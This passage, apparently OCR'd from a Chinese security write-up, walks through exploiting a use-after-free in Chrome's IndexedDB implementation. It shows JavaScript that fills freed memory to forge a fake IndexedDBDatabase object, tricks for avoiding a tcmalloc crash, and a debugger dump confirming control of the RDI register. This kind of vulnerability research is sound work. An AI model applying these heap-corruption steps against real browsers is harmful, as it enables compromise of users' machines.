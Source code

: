 ```
```
这里有几点需要注意：
```
void IndexedDBDatabase::AppendRequest(
    std::unique_ptr<ConnectionRequest> request) {
  pending_requests_.push(std::move(request));

  if (!active_request_)
  //该函数会触发遍历fake_indexedDBDatabase结构体中的一个std::map，而此时我们还没有堆地址，因此不能进入此函数
    ProcessRequestQueue(); 
}
```
这里通过uaf_ta[35] = 0x101n;来将active_request_置为非0绕过判断。

还有就是如果写成这样：
```
uaf_ta[0] = 0x12345679n;
for(let j=1;j<35;j++){
    uaf_ta[j]=0x101n;   //将active_request_置非0
}
uaf_ta[36] = 0x101n;
```
会在执行[1]处时，在free的时候由于0x101触发tcmalloc的crash，所以我们才用了只填充关键内容其余都为0的方案。
```
void IndexedDBDatabase::DeleteDatabase(
    scoped_refptr<IndexedDBCallbacks> callbacks,
    bool force_close) {
  LOG(ERROR) << sizeof(IndexedDBDatabase);
  AppendRequest(std::make_unique<DeleteRequest>(this, callbacks)); //[1]
  // Close the connections only after the request is queued to make sure
  // the store is still open.
  if (force_close)
    ForceClose();
}
```



第二次执行IndexedDBDatabase::DeleteDatabase时即可看到RDI寄存器已经成为了我们控制的fake DB
```
RAX  0x5619ae3117d21500
 RBX  0x3d2972fe9420 ◂— 0x12345679
 RCX  0xc
 RDX  0x0
*RDI  0x3d2972fe9420 ◂— 0x12345679
*RSI  0x7fbd8c320298 —▸ 0x3d2a57c07560 —▸ 0x7fbdaaea1360 —▸ 0x7fbdaa18b890 ◂— push   rbp
 R8   0x7fbda06d5770 (_IO_stdfile_2_lock) ◂— 0x0
 R9   0x7fbd8c321700 ◂— 0x7fbd8c321700
 R10  0x4a
 R11  0x0
 R12  0x7fbda0424936 (clock_gettime+38) ◂— cmp    rax, -0x1000 /* 'H=' */
 R13  0x3d2a57bffe50 ◂— 0x3100620064 /* 'd' */
*R14  0x0
*R15  0x7fbd8c320298 —▸ 0x3d2a57c07560 —▸ 0x7fbdaaea1360 —▸ 0x7fbdaa18b890 ◂— push   rbp
*RBP  0x7fbd8c320250 —▸ 0x7fbd8c3204f0 —▸ 0x7fbd8c320550 —▸ 0x7fbd8c320570 —▸ 0x7fbd8c320600 ◂— ...
*RSP  0x7fbd8c3200f0 ◂— 0x3000000028 /* '(' */
*RIP  0x7fbdaa19f8f8 ◂— mov    edi, 2
```
